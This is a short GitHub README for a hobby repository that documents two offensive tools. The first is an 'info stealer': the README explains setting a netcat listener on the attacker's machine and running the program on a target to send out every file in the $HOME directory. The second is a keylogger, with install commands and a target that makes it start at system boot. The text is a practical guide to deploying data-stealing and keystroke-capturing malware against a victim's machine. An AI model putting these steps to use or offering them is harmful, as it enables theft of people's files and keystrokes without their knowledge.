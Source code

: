# t00l5
learning writing some tools in c++ and python

## Info stealer  

Two hosts, target and attacker.  
In the target host execute the executable of info_stealer.cpp (info_stealer.out), after changing <IP> and <PORT> in the code.  
the IP and PORT should be attacker's. Before executing:  
```
nc -lvp <PORT>
```
On the attacker's machine, and run the code on the target's machine, the attacker machine will receive all the files in $HOME directory, you can play with directory in the cpp code.

## KeyLogger 

`$ make && make install`

It will log to `/var/log/keystroke.log`. This may require root access, but you can change that if you want. Set where you want it to log:

`$ keylogger ~/logfile.txt`

`Logging to: /var/log/keystroke.log`

Want to make it start on system startup?

`$ sudo make startup`

That will run it on startup.

### Uninstall
`$ sudo make uninstall`
Will uninstall the program, but not the logs.

